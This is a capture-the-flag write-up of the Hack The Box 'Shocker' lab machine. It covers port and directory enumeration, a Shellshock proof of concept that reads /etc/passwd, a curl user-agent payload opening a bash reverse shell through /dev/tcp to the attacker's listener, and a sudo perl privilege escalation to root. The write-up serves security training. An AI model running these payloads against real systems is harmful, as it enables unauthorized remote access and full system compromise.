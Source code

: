 ```yaml
---
title: Shocker
layout: default
parent: Hack the Box OSCP Like
nav_order: 3
has_children: false
---
```


![ShellShock](images/Shocker.png)

<button type="button" name="button" class="btn">#ShellShock</button>
# Enumeration
---
## NMAP
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -sV 10.10.10.56 > nmap.txt
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ cat nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 22:59 BST
Nmap scan report for 10.10.10.56
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

## Visual
Navigated to the site (apache is running) and saw this:  
![Bug](images/shocker1.png)

Page source doesn't contain a whole lot:
```html
 <!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

## GoBuster
Gobuster directory enumeration results in the following:
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~/Downloads]
└──╼ [★]$ gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/24 21:32:32 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
```

Based on the below reading, I knew we were looking for a .sh file (assuming ShellShock) inside of /cgi-bin. I may have used a hammer here with the 'big.txt' wordlist, but it proved successful:
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gobuster dir -e -u http://10.10.10.56/cgi-bin -w /usr/share/seclists/Discovery/Web-Content/big.txt -x sh,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,php
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/06/24 22:54:56 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.10.56/cgi-bin/.htpasswd            (Status: 403) [Size: 303]
http://10.10.10.56/cgi-bin/.htaccess.php        (Status: 403) [Size: 307]
http://10.10.10.56/cgi-bin/.htpasswd.sh         (Status: 403) [Size: 306]
http://10.10.10.56/cgi-bin/.htaccess.sh         (Status: 403) [Size: 306]
http://10.10.10.56/cgi-bin/.htaccess            (Status: 403) [Size: 303]
http://10.10.10.56/cgi-bin/.htpasswd.php        (Status: 403) [Size: 307]
http://10.10.10.56/cgi-bin/user.sh              (Status: 200) [Size: 118]

===============================================================
2022/06/24 22:57:17 Finished
===============================================================
```

## Reading
---
CGI-BIN is the only item here that looks unique and/or different. Performed some quick research and will attach that info here. Based on the version of apache and the name of the machine, we'll start looking into ShellShock and related exploits.

What is a CGI-Bin? - Definition from Techopedia
https://www.techopedia.com › ... › DevOps › CGI-Bin
A CGI-bin is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website.

CGI - HackTricks
https://book.hacktricks.xyz › pentesting-web › cgi
The CGI scripts are perl scripts, so, if you have compromised a server that ... You could find this vulnerability noticing that it is using an old Apache ...

Apache HTTP Server Path Traversal & Remote Code ...
https://blog.qualys.com › 2021/10/27 › apache-http-ser...
Oct 27, 2021 — On October 4, 2021, Apache HTTP Server Project released Security advisory on a Path traversal and File disclosure vulnerability in Apache ...

Apache mod_cgi - 'Shellshock' Remote Command Injection
https://www.exploit-db.com › exploits
Oct 6, 2014 — CVE-2014-6278 CVE-2014-6271 . remote exploit for Linux platform. ... #!/usr/bin/env python from socket import * from threading import Thread ...

# Exploitation
---
From our previous gobuster results, we found 'user.sh'. Navigating to http://10.10.10.56/cgi-bin/user.sh downloads the file successfully.
[GitHub](https://github.com/opsxcq/exploit-CVE-2014-6271) Link to exploit and test environment

## POC
From the github link above, we ran this command against the machine and it did, in fact, cat out the /etc/passwd file. This indicates that we should be able to initiate a reverse shell (or send through any other command) successfully.
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'"
 http://localhost:8080/cgi-bin/user.sh
```

## FootHold
Pulled the syntax for a bash reverse shell from this [Link](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/) after my regular nc IP PORT command didn't take. I started netcat in a separate window and began the listener, ran this one through via my first terminal and confirmed a reverse shell.
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~/Downloads]
└──╼ [★]$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[/usr/share]
└──╼ [★]$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.56] 57980
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

Navigated to ~, found user.txt, cat'd it out and submitted the flag.

## Privilege Escalation

Started with a typical sudo -l and found we can run perl as root:
```bash
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Tried my hand at sudo perl -e /bin/bash but the syntax wasn't right (obviously). Identified the correct syntax via [GTFOBins](https://gtfobins.github.io/gtfobins/perl/)
```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
root
```

Navigated to ~, cat'd out root.txt, submitted the flag.

## Failures
### SSH
Started with SSH and identified the following [Exploit](https://www.exploit-db.com/exploits/40136) via searchsploit and exploit-db.
Downloaded the script for later use. I don't think it will be SSH as the aforementioned exploit mostly revolves around user enumeration.

We'll maybe perform the user enumeration just in case.
Running the script gives me a paramiko error, so we'll get that installed as per the [Site](https://www.paramiko.org/installing.html)
```bash
pip install paramiko
```

Had to update the python script to utilize time.perf_counter() instead of time.clock() as it has been deprecated per this article [Link](https://stackoverflow.com/questions/58569361/attributeerror-module-time-has-no-attribute-clock-in-python-3-8)

It seems like we're getting way too many hits on usernames and perhaps this isn't functioning as expected. I think I'm going to move on to apache enumeration, but we'll hold on to this line for later if we want to revisit:
```
python3 40136.py -U /usr/share/SecLists/Usernames/Names/names.txt 10.10.10.56:2222 > username.txt &
```
